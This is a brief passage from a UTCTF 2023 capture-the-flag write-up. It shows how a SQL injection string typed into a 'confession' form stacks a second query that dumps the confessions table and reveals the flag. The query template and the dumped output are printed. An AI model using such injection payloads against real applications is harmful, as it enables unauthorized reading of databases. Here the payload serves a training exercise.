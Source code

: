 The server would reject confessions about 90% of the time, but we can just send the same request until it goes through.

Based on the URL of the image of the cross on the webpage (`/images/img2.png`), I figured there may be a `/images/img1.png`:

![`"INSERT INTO confessions (text) VALUES (\"" + confession + "\");"`](/writeups/2023/utctf/media/img1.png)

The following confession dumps the contents of the `confessions` table, which includes the flag.

```
a"); select * from confessions; --
```

```
thanks for confessing[("I actually don't like security",), ('utflag{thanks_for_confessing_your_sins}',), [...]
```
